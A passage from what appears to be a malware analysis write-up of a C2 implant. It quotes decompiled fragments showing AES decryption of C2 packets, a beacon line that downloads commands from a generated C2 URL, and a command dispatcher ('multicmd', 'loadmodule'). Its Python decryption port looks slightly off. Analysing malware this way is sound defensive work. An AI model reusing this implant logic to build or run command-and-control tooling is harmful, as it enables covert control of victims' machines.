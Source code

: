 Basically, it encrypts un (which is just a bunch of environment parameters) and downloads text5. 

**Text5** is actually the packet that has a different name from the others (**Anni?Theda=Merrilee**). 

After decrypting **text5**, it performs a bunch of regex queries and to initialise all the variables necessary for the channel. The  **********************Decryption********************** function ********************************************is pretty basic AES:

```python
array = Convert.FromBase64String(enc)
array2 = array[0:16]
val = CreateCam(key, Convert.ToBase64String(array2))
bytes = val.CreateDecryptor().TransformFinalBlock(array, 16, array.Length - 16)
output = Encoding.UTF8.GetString(Convert.FromBase64String(Encoding.UTF8.GetString(bytes).Trim(new char[1])))

```

In Python, this translates to:

```python
import base64
from Crypto.Cipher import AES 
from Crypto.Util.Padding import unpad
 
def decrypt(enc, key):
  enc = base64.b64decode(enc)
  iv = enc[0:16]
  key = base64.b64decode(key)
  cipher = AES.new(key, AES.MODE_CBC, iv)
  dec = cipher.decrypt(enc[16:])
  return dec[:-16]
```

Once all the variables are initialised, **primer** calls **ImplantCore:**

1. **ImplantCore**

The first thing it does is initiate the classes UrlGen and ImgGen. 

```python
UrlGen.Init(stringURLS, RandomURI, baseURL);
ImgGen.Init(stringIMGS);

```

Then it does a bunch of blablabla, but eventually calls UrlGen.GenerateUrl() [which creates a url at random], and decrypts it. 

```python
cmd = GetWebRequest(null).DownloadString(UrlGen.GenerateUrl());
text = Decryption(Key, cmd).Replace("\0", string.Empty);
```

The decrypted text is then parsed. 

If the decrypted text starts with ‘multicmd’ it:
- replaces the value ‘**multicmd**’  with ‘’
-  splits it at string "**!d-3dion@LD!-d**”. 
- iterates on each string on the new splitted array and checks if it matches some particular string, like ‘loadmodule, ‘run-dll-background’, ‘run-exe-background’ … depending on the value it will call different functions: 
